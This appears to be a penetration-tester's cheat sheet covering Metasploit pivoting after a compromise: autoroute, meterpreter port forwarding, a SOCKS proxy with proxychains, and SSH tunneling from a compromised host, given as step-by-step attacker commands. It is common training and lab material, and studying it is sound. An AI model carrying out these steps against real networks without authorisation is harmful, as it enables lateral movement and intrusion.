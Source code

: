  <h2> Proxying </h2> <br>
 
  If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  msfconsole<br>
pivoting, check ifconfig when you have a shell on the machine if you have a meterpreter shell, are there multiple nics?<br>
if yes, use autoroute<br>
background session -- background<br>
use post/multi/manage/autoroute<br>
set SESSION 1 (change if more than 1 session)<br>
set SUBNET 10.200.3.0 (change to submet needed)<br>
exploit<br>
if that doesnt work make sure your back in your session and run (change IPs) -- meterpreter > run autoroute -s 192.181.243.1/24 <br>
now you can use further auxiliary commands against the machine pivoting towards<br>
has nmap command which can be used with script comnmand --script(useful for pivoting)<br>
  background <br>
  for portscan - use auxiliary/scanner/portscan/tcp <br>
  set options and set everything <br>
  run <br>
  Identify ports of interest, now need to configure port forward. <br>
  access the session -- sessions -i NUMBER <br>
  ensure meterpreter shell and type -- portfwd add -l (PORT TO FORWARD, e.g. 555) -p (PORT ATTACKING) -r victimIP <br>
  background session <br>
  Now perform nmap -sV -sC scan on ported for e.g. -p 555 localhost still in msfconsole console
  Once found an exploit for version type -- search SERVICE and use whatever exploit <br>
  set IP to actual machines ip 
  exploit 
  
  
  <h2> Proxychains </h2>
  <br>
   If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  Now setup proxy <br>
 use auxiliary/server/socks_proxy <br>
 set VERSION 5 <br>
  type -- run <br>
 edit proxychains to socks5 and same port as metasploit using localhost 127.0.0.1 (/etc/proxychains.conf) <br>
 type --- proxychains nmap -T4 IP/CIDR and look for "OK" <br>
 every command is the same just add proxychains before
  
  
<h2> SSH Tunneling </h2> <br>
If you manage to get into a box via SSH or have comprimised a box and are able to ssh to the box, you can check what local ports are running and then use SSH tunneling to access these from your attack machine <br>
when on the comprimised host (if linux) type -- ss -tulpn (take a look at ports running and the port number) <br>
if port 10000 is running and of interest youd type on your local machine ssh -L 10000:localhost:10000 <username>@<ip>  (username of victim machine and ip) <br>
 then browse to port by browser -- localhost:10000 <br>
